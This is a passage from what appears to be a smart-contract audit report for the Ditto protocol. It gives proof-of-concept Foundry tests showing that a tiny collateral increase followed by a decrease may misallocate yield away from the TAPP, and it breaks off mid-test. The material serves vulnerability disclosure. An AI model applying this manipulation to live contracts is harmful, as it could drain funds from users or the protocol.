 ## PoC
Add the following tests inside `test/Yield.t.sol`. Also, uncomment [Line 11](https://github.com/Cyfrin/2023-09-ditto/blob/main/test/Yield.t.sol#L11) so that we can do some logging.
```js
    /* solhint-disable no-console */
    function test_normal_decreaseCollateral() public {
        // initial ethEscrowed
        console.log(
            "initial receiver ethEsrowed=",
            diamond.getVaultUserStruct(vault, receiver).ethEscrowed
        ); // 1000
        console.log(
            "initial TAPP ethEsrowed=",
            diamond.getVaultUserStruct(vault, tapp).ethEscrowed
        ); // 0

        fundLimitShort(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
        fundLimitBid(DEFAULT_PRICE, DEFAULT_AMOUNT, sender);

        skip(yieldEligibleTime);
        generateYield(2 ether);

        vm.startPrank(receiver);
        diamond.decreaseCollateral(asset, Constants.SHORT_STARTING_ID, 1 ether);
        vm.stopPrank();

        console.log(
            "final receiver ethEsrowed=",
            diamond.getVaultUserStruct(vault, receiver).ethEscrowed
        ); // 1001.3 ether (this is 1000 + 1 + yield = 1000 + 1 + 0.3)
        console.log(
            "final TAPP ethEsrowed=", diamond.getVaultUserStruct(vault, tapp).ethEscrowed
        ); // 0.2
    }

    /* solhint-disable no-console */
    function test_bug_incThenDecreaseCollateral() public {
        // initial ethEscrowed
        uint256 initial_ethEscrowed =
            diamond.getVaultUserStruct(vault, receiver).ethEscrowed;
        console.log("initial receiver ethEsrowed=", initial_ethEscrowed); // 1000
        console.log(
            "initial TAPP ethEsrowed=",
            diamond.getVaultUserStruct(vault, tapp).ethEscrowed
        ); // 0

        fundLimitShort(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
        fundLimitBid(DEFAULT_PRICE, DEFAULT_AMOUNT, sender);

        skip(yieldEligibleTime);
        generateYield(2 ether);

        vm.startPrank(receiver);
        uint88 increaseBy = 1; // can be any amount, but let's keep as 1 wei for easy calculation.
        diamond.increaseCollateral(asset, Constants.SHORT_STARTING_ID, increaseBy);
        uint88 decreaseBy = 1 ether;
        diamond.decreaseCollateral(asset, Constants.SHORT_STARTING_ID, decreaseBy);
        vm.stopPrank();

        console.log(
            "final receiver ethEsrowed=",
            diamond.getVaultUserStruct(vault, receiver).ethEscrowed
```